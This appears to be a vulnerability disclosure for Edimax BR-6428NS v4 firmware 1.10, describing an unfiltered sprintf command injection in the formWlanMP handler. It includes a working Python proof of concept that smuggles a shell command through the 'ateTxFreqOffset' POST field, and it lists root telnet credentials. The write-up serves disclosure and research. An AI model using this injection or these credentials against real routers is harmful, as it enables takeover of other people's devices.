 # Command Injection

Command injection without any limitations

## Firmware

Wireless: Edimax home Wireless Routers N300 

Firmware Version: BR-6428NS_v4_1.10

You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4) and use FirmAE to simulate the router environment.

FirmAE command: `./run.sh -r v4 BR-6428NS_v4_1.10.bin`(This will take a while, please be patient:)

![image-20230428095433531](img/image-20230428095433531.png)

## Description

The vulnerability was found in **/bin/webs**.

Function is  **formWlanMP**

![image-20230428100551575](img/image-20230428100551575.png)

You can perform command injection through more than one POST parameter, the sprintf here does not perform any filtering.

![image-20230428100443125](img/image-20230428100443125.png)



## poc

python

```python
import requests

command = "touch /tmp/Swe3ty"

url = "http://192.168.2.1/goform/formWlanMP"
data = {
	"ateTxFreqOffset":"1;"+command
}

r = requests.post(url,data=data)
print(r.text)
```

![image-20230428105559272](img/image-20230428105559272.png)

use **root/edimaxens** telnet to the router

```shell
telnet 192.168.2.1
```

![image-20230428110331701](img/image-20230428110331701.png)
